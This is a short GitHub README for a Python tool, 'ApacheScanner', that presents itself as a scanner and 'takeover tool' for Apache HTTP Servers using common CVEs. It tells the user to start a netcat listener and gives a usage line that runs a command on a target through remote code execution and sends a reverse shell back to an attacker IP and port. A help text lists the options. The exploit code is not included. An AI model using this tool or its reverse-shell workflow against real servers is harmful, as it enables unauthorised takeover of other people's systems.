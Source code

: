 # ApacheScanner
Apache HTTP Server Scanner and takeover tool with all common CVE's of Apache HTTP Servers


run a netcat or whatever listener for the RCE 

To run this Script install the Required pip Modules and define your command by this: 

```python3 ApacheScanner.py -u http://serveriphere  --rce --cmd "your command here" --lhost <your attacker IP> --lport <Your listening port>``` 

```
Usage: ApacheScanner.py [options]

Apache HTTP Server scanning and overtaking tool written by Yqno.

Options:
  -h, --help            Show this help message and exit
  -u URL, --url URL     The target URL of your Apache HTTP Server (default is http://localhost:80)
  -t TIMEOUT, --timeout TIMEOUT
                        The timeout of the request in seconds (default is 25)
  -p PORT, --port PORT  The port number of your Apache HTTP Server (default port is 80)
  -c COMMAND, --command COMMAND
                        The command to be executed on your Apache HTTP Server (default is ls -l)
  --rce                 Enable remote code execution on your Scan (default is False)
  --cmd CMD             Command to run if RCE is enabled (default is whoami)
  --lhost LHOST         Attacker IP for reverse shell (required if --rce is enabled)
  --lport LPORT         Attacker listening port for reverse shell (required if --rce is enabled)
 ```  

